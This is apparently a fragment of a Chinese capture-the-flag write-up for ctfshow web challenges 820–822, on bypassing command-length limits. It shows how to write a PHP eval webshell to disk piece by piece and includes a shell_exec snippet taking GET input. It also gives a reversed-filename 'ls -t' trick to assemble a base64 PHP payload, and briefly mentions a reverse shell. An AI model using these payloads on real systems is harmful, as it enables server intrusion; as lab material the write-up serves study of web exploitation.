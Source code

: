 如需执行 echo \<?php eval($_GET[1]);?\>>1

```php
echo \<?php >1//创建一个1的文件 并把内容写入
echo eval\(>>1
echo \$_GET>>1
echo \[1\]>>1
echo \)\;?>>1
```

### 7字符

1>a或者w>b分别可以创建a和b两个空文件夹。

ls>c会将目录下面的文件名写入到c文件中；ls -t>0会将文件名按照创建的时间倒叙写入0文件中。并且自动换行。

\作为转义符，转义之后的'\'是用来换行分隔，也就是换行也是连接的。

```php
ca\
t
这就代表cat
```

例如这样的代码：

```php
<?php
if(strlen($_GET[1])<8){
     echo shell_exec($_GET[1]);
}
?>
```

假设我产要写入`<?php echo phpinfo();echo PD9waHAgcGhwaW5mbygpOw== | base64 -d >1.php`

```bash
w>hp
w>1.p\\
w>d\>\\
w>\-\\
w>e64\\
w>bas\\
w>=\|\\
w>w=\\
w>gpO\\
w>mby\\
w>aW5\\
w>Ghw\\
w>Agc\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\

ls -t>0

sh 0
```

倒叙新建文件名，然后通过ls -t>0，将刚才的顺序再倒序然后写入到0文件中，然后用sh将0当作脚本执行。

web821`GET`型木马转成了`POST`型木马,不知原因

web822 阴间题,不可写,放入临时文件进行反弹shell

最后flag位置更逆天

```php
<?php
$conn = new mysqli('localhost', 'root', 'root', 'ctfshow');
```